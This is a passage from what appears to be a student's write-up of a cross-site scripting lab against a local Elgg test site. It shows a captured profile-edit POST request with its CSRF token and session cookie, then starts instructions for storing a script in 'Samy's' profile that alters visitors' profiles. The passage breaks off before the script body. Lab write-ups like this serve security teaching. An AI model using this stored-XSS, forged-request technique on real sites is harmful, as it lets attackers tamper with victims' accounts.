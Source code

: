     <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="Request URL: http://www.xsslabelgg.com/action/profile/edit
__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=<p>dsadsa</p>
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Then edit Samy's profile and figure out his <code>guid</code> as 47</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<p dir="auto">Now we want to modify the <code>about me</code> module in the profile of someone as <code>"modified by Samy"</code> if he/she visits Samy's profile page. Save the code below as Samy's profile:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span> <span class="pl-c1">type</span>="<span class="pl-s">text/javascript</span>"<span class="pl-kos">&gt;</span>